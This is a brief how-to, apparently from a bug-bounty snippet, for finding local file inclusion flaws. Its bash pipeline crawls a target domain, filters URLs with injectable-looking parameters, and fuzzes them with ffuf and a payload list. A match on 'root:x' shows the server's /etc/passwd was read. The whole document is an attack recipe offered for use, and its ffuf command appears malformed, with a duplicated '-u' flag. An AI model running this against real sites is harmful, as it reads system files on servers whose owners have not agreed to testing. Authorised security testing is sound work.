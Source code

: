 # How to Hunt for LFI Vulnerabilities

```bash 
echo "example.com" | katana -o katana.txt

cat katana.txt | sort -u | urldedupe > urls.txt

cat urls.txt | gf lfi | qsreplace FUZZ > lfi.txt

ffuf -u FUZZ -w lfi.txt:URL -w lfiPayloads.txt:PAYLOAD -u URL -mr "root:x"

```




